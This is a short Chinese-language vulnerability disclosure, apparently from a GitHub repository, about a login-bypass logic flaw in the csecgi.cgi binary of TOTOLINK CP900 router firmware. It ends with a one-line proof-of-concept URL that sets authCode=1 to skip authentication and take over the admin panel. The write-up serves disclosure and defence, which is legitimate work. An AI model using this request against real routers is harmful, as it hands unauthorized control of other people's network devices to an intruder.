


# TOTOLINK 存在逻辑漏洞

品牌: TOTOLINK

产品型号: CP900

固件版本: TOTOLINK_C8B810C-1A_CP900_CP0016_QCA9531_SPI_16M128M_V6.3c.566_B20171026_ALL.web

下载链接: http://www.totolink.cn/data/upload/20210720/5bee10397c082b0419cbad3eb7d1bd97.zip

## 漏洞细节

允许远程攻击者绕过登录，直接接管设备后台

In csecgi.cgi:

In sub_42A2D0 function

authCode=0 代表 login 失败

authCode=1 代表 login 成功

## POC

http://192.168.0.254/formLoginAuth.htm?authCode=1&userName=admin

